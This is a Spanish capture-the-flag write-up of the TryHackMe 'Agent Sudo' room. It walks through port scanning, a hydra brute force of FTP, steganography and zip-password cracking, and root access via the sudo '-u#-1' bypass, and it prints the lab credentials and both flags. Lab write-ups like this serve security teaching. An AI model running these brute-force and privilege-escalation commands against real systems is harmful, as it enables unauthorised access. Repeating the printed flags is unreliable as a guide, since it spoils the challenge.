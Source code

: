 # Agent Sudo

## Enumeración

Realizamos un escaneo de puertos con`nmap`sobre la víctima para identificar puertos y servicios disponibles:

```
sudo nmap -sV -T4 -p- 10.10.130.68
```

Los puertos 21 de ftp, 22 de ssh y el 80 http están abiertos.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image.png]]

Accedemos a la web.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-1.png]]

Nos dice que en la petición HTTP, en el user-agent, usemos el nombre de "R". Ejecutamos el siguiente comando de`curl`:

```
curl http://10.10.130.68/ -H "User-Agent: R" -L 
```

Obtenemos los siguientes resultados. 

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-2.png]]

Probamos con todas las letras entonces hasta que acertamos con una.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-3.png]]

Nos dice que el usuario`chris`tiene una contraseña muy débil.

## Ataque de fuerza bruta

Hacemos un ataque de fuerza bruta usando`hydra`sobre el puerto ftp con el usuario`chris`.

```
hydra 10.10.130.68 -l chris -P /usr/share/wordlists/rockyou.txt ftp
```

La contraseña de`chris`es`crystal`.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-4.png]]

Accedemos por ftp con estas credenciales obtenidas.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-5.png]]

Hay un .txt y dos imágenes.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-6.png]]

Nos los descargamos con el comando`get`.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-7.png]]

El .txt nos dice que las fotos son falsas, que la contraseña de login está oculta en la imagen falsa.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-8.png]]

Usamos`binwalk`para buscar información oculta en la imagen:

```
binwalk cutie.png
```

Hay un .zip escondido.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-9.png]]

Lo extraemos con el siguiente comando:

```
binwalk cutie.png --extract
```

El .zip está encriptado y vamos a usar`john the ripper`para desencriptarlo.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-10.png]]

Exportamos el .zip a un formato adecuado para`john`, es decir, obtenemos el hash para crackearlo.

```
zip2john 8702.zip > hash.txt
```

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-11.png]]

Y usamos`john`para obtener la contraseña que es`alien`:

```
john hash.txt 
```

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-12.png]]

Extraemos el zip con la contraseña y obtenemos el siguiente mensaje:

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-13.png]]

Es un código en Base64, lo decodificamos:

```
echo 'QXJlYTUx' | base64 -d
```

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-14.png]]

Entonces, extraemos el mensaje con la herramienta`steghide`de la imagen `cute-alien.jpg`.

```
steghide --extract -sf cute-alien.jpg -p Area51
```

Obtenemos las credenciales del usuario`james`que es`hackerrules!`.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-15.png]]

## Escalada de privilegios

Accedemos por ssh con el usuario`james`.

```
ssh james@10.10.130.68 
```

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-16.png]]

Obtenemos la flag del usuario.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-17.png]]

```
b03d975e8c92a7c04146cfa7a5a313c7
```

Comprobamos los permisos que tiene el usuario.

```
sudo -l
```

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-18.png]]

Buscamos una posible vulnerabilidad para **(ALL, !root) /bin/bash** y vemos que está en una versión vulnerable, antes de la 1.8.28.

https://www.exploit-db.com/exploits/47502

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-19.png]]

Nos podemos saltar la autenticación de sudo con el siguiente comando:

```
sudo -u#-1 /bin/bash
```

Obtenemos la flag del root.

![[Hacking_Etico/TryHackMe_WriteUps/Agent_Sudo/images/image-20.png]]

```
b53a02f55b57d4439e3341834d70c062
```










